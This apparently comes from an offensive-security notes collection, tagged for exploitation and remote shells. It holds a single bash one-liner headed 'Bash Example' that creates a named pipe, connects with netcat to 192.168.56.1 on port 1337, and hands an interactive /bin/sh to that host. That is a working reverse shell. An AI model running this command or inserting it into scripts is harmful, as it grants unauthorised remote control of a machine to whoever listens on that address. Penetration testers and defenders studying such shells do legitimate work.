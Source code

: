 ```yaml
---
tags:
  - Exploitation
  - RemoteShells
  - SpecificShells
---
```



# Bash Example

```
mkfifo /tmp/grpoa; nc 192.168.56.1 1337 0</tmp/grpoa | /bin/sh >/tmp/grpoa 2>&1; rm /tmp/grpoa
```